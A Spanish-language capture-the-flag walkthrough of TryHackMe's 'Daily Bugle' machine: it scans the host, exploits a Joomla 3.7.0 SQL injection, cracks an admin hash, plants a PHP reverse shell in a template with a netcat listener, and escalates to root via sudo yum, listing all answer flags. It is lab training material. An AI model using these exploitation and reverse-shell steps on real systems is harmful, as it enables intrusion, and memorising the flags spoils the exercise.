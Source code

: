 ****

# CTF Write-Up Daily Bugle (TryHackMe)



**Realizado por: Raúl Cabrera Garcia** 

***Descripción: Se trata de la guía-paso, para poder resolver está máquina CTF***


***Instrucciones:*** 

- Principalmente nos invitan a que accedamos a la web, y respondamos ¿Quién robo el banco?. Pero sigamos un poco de metodología primero.
- 1 - Realizamos un escaneo con NMAP de los puertos disponibles:
![FOTO1](foto1.png)
```
nmap -A -p- -Pn IP_MAQUINA
```

- 2 - Vemos que tenemos 2 puertos el 22 (SSH) y el 80 (HTTP o Web). En este caso lo primero sería dirigirnos a la web.

- 3 - Si vemos, a primera vista, encontramos la primera respuesta a la pregunta de la máquina. Es una noticia del "Daily Bugle". Contándonos que quien robó el banco fue "Spider-Man". Por lo que la respuesta es "spiderman".
![FOTO2](foto2.png)

- 4 - Lo primero que podemos mirar es el "robots.txt", para ver si se puede acceder algún directorio. Que no indexa el buscador. Paralelamente, podemos ir realizando un "gobuster", contra la web. Para así, poder listar posibles directorios, y si se descubriera algunos mas, que no estuviera en el "robots.txt".
```
gobuster dir -u http://IP_MAQUINA -w /usr/share/dirb/wordlists/common.txt
```
- 5 - Si miramos el "http://IP_MAQUINA/robots.txt", vemos lo primero un texto, donde ya nos dicen el tipo de "CMS", que estamos tratando. Es un Joomla, nos interesará mas adelante. Y una larga lista de directorios, que están "disallow". Y, vemos uno interesante. Es "/administrator/"

![FOTO3](foto3.png)

- 6 Vemos que lo que nos muestra es un panel de administración de un "joomla".

![FOTO4](foto4.png)

- 7 Si probamos credenciales por defecto, nos dirá que "tarari, pero es bueno probarlo ;)".

- 8 - Al terminar gobuster. Veremos que nos encontró varios directorios e incluso ficheros. Si probais el "/tmp o fichero .htpasswd, .htaccess", estará vacío o directamente no podremos acceder a verlos. También tenemos el "/administrator/", que vimos antes en el "robots.txt". Que es el que contiene el panel de administración del Joomla.
![FOTO5](foto5.png)

- 9 - Ahora, siguiendo las preguntas que nos hacen del CTF, debemos averiguar la versión del Joomla. Como ya sabemos que lo es. Utilizamos la herramienta "Joomscan", que nos permite analizar el CMS, y obtener información variada. En parte, muy en la línea de la otra herramienta "gobuster". Pero nos muestra también la versión. Tratándose de:
```
joomscan -u http://IP_MAQUINA
```

![FOTO6](foto6.png)

- 10 - Ya sabemos la versión del joomla. Un Joomla versión "3.7.0", siendo está la respuesta a la pregunta. Y como se ve, nos indica más cosas, cual es la página de administración y los distintos directorios que podrían ser interesante. De aquí, ya no nos interesa nada mas.

- 11 - Ahora que tenemos un panel de administración debemos intentar hacer un "bypass" al login. Para ello usaremos un script de python llamado "joomblah". Un exploit para Joomla 3.7.0, que se aprovecha de una vulnerabilidad con CVE-2017-8917. Haciendo uso de "SQLinjection". Podemos descargarlo de "GitHub". Y le damos permiso de ejeccución.
```
chmod +x joomblah.py
usage: python2 joomblah.py http://IP_MAQUINA:puerto
```

![FOTO7](foto7.png)
- 12 - Una vez lo hemos ejecutado, nos aparece que encontró un usuario llamado "jonah" y lo que nos parece una clave cifrada. Aparte del nombre de la tabla, "fbnj5_users".
```
usuario: jonah
clave: $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```

- 13 - Lo siguiente que tendremos que hacer es descifrarla, para ello. Usaremos la herramienta "John The Ripper". Creamos un fichero "clave.txt", dentro escribimos la línea que encontramos antes. Y se la pasamos a John, junto al diccionario "rockyou", que trae Kali Linux. Intentará identificar el tipo de hash y probará con el diccionario a "crackear la clave".
```
john --wordlist=/usr/share/wordlists/rockyou.txt clave.txt
```
![FOTO8](foto8.png)

- 14 - Obtenemos la clave, y ya podemos responder a la siguiente pregunta, del CTF. Donde nos pedían. ¿Qué cual era la clave crackeada de Jonah?. La respuesta es "spiderman123".
```
usuario: jonah
clave: spiderman123
```
- 15 - Ahora tenemos un usuario y una clave, podremos entrar al panel de administracíon de joomla. Este usuario como se ve, es "Super User". Por lo que tendremos acceso ampliado dentro del CMS.

![FOTO9](foto9.png)

- 16 - Ahora la finalidad y lo que nos interesa, es encontrar alguna forma de poder tener acceso al sistema. Por lo que debemos de obtener una "shell reversa", y al estar tratando con un CMS. Buscaremos el código para ejecutar una "reverse shell de código PHP". Nos vamos a:
```
Extensiones --> Templates --> Nos aparece, que de estilo se está usando "protostar" --> Templates --> Protostar Details and Files
```
![FOTO10](foto10.png)


- 17 - Ahora nos aparace un arbol de directorios. Elegimos el archivo "index.php"

![FOTO11](foto11.png)

- 18 - Previamente hemos copiado el código de una "shell reversa", hecha con código PHP. Y modificado en su código, con la dirección IP de nuestra máquina Kali y el puerto que queremos estar "escuchando", para que cuando se cargue está página. Obtengamos una shell en nuestra Kali. Ya que tendremos "netcat" a la escucha.
```
Podemos obtener la "shell reversa", de la web "pentestmonkey".
$ip = 'IP_MAQUINA_KALI'
$port = 1234
```
![FOTO12](foto12.png)

- 19 - Ponemos a la espera nuestra Kali Linux. Con "netcat":
```
nc -vnlp 1234
```

![FOTO13](foto13.png)

- 20 - Volvemos a la web. Guardamos la página y cerramos. Y ahora, debemos visitar la página "index.php", para que se ejecute el código PHP. Que hemos puesto. Y volvemos a la terminal. Y vemos que obtenemos una "shell", y si ejecutamos el comando "id". Ahora mismo somos el usuario "apache".

![FOTO14](foto14.png)

- 21 - Lo siguiente, que debemos de probar primero. Es ver directorios en los que podramos acceder y buscar algo que parezca importante. Si intentais mirar en "/home", encontramos otro usuario "jjameson". Tenemos acceso también al "/etc/passwd". Si hacemos un "sudo -l". Para ver si podemos ejecutar como administrador algún comando. Vemos que no es el caso está vez.

![FOTO15](foto15.png)

- 22 - Debemos seguir, ya que somos un usuario "apache" y la máquina tiene un CMS. Debemos ir a mirar dentro de los directorios que parten de "/var/www/html". Del servicio web. Veremos varios archivos, que pueden ser interesantes.

![FOTO16](foto16.png)

- 23 - El que nos interesa principalmente, es el fichero de configuración de "PHP". En el, encontramos entre las líneas, en las variables de conexión a la base de datos, 2 variables que pueden parecer interesante "$password" y "$secret".
```
$password = nv5uz9r3ZEDzVjNu
$secret = nv5uz9r3ZEDzVjNu
```

![FOTO17](foto17.png)

- 24 - Probaremos, y la "$password" es la que nos valdrá, para el usuario "jjameson". No es necesario probar a crackearla, ya que valdrán tal cual vienen. Lo único que debemos de hacer es cambiar de usuario.

- Ejecutamos lo siguiente:

![FOTO18](foto18.png)

- Y nos vamos a "/home/jjameson/user.txt". Leemos el fichero y podremos responder a la penúltima pregunta del CTF. Que nos piden la flag del usuario:

![FOTO19](foto19.png)

- Y ahora, ya que la otra clave, "$secret", no nos sirve para escalar a usuario "root", nos quedamos como "jjameson". Volvemos a consultar si podemos ejecutar algún comando como administrador. Vemos que está vez si. Es el comando "yum".

![FOTO20](foto20.png)

- Ejecutamos el comando "yum", como administrador. Utilizando con el comando, alguna técnica de "abusing sudo". Por lo que debemos de ejecutar lo siguiente:

![FOTO21](foto21.png)

- 25 - Finalmente, somos usuario "root", nos dirigimos a "/root/root.txt". Y ya respondemos a la última pregunta del CTF. Que es la flag del "root". Enhorabuena, has completado el CTF!!. Máldito JJJ!

![FOTO22](foto22.png)

***Flags:***

- Primera Flag: spiderman
- Segunda Flag: 3.7.0
- Tercera Flag: spiderman123
- Cuarta flag: 27a260fe3cba712cfdedb1c86d80442e
- Quinta flag: eec3d53292b1821868266858d7fa6f79
